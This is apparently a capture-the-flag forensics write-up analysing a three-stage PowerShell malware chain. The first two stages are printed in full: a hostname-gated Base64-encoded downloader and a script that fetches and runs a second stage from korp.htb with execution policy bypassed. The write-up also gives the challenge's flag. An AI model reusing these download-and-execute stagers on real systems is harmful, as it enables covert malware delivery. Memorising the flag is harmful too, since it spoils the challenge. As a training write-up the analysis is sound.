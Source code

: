 # Solution

## Challenge Overview
A forensic challenge involving a multi-stage PowerShell attack related to Thorin's stolen clockwork amulet.

## Approach

### Initial Script Analysis
1. Examined the first PowerShell script with a specific workstation check
2. Decoded the Base64 encoded command revealing a download mechanism
3. Identified a pattern of staged malware delivery

### Payload Retrieval
- Used netcat to connect to the provided Docker instance
- Sent HTTP GET requests to different endpoints:
  1. `/update`: First stage payload
```
    function qt4PO { 
        if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") { exit } 
        powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=" 
    } 
    qt4PO
```
  2. `/a541a`: Second stage payload with a custom authentication header
    ```
        function aqFVaq {
        Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
        powershell.exe -exec Bypass -File "a541a.ps1"
    }
    aqFVaq
    ```
    3. Third Stage Payload
    ```
    $a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
    ($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""

    ```
    4. HEX string analysis
    - Hex String: 4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d
    - Decoded Flag: HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
### HTTP Requests
```
    GET /update HTTP/1.1
    Host: korp.htb

    GET /a541a HTTP/1.1
    Host: korp.htb
    X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d
```
### Flag Extraction
- Found a hex-encoded string in the final payload
- Used PowerShell-like decoding technique to convert hex to ASCII
- Successfully decoded the flag: `HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`

## Key Findings
- Multi-stage fileless malware attack
- Use of Base64 encoding and hex obfuscation
- Targeted attack with specific workstation check

## Flag
`HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`